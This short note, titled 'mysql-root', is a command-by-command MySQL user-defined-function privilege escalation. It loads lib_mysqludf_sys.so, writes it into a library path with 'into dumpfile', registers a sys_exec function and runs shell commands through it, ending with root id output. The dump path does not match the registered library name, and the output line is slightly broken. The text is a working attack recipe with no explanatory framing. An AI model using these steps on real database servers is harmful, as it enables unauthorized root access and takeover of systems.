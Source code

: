 # mysql-root

mysql> create table npn(line blob);

mysql> insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));

mysql> select * from npn into dumpfile '/usr/lib/lib/_mysqludf_sys.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

mysql> select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');


cd ~/

id

uid=0(root) gid=0(root groups=0(root)

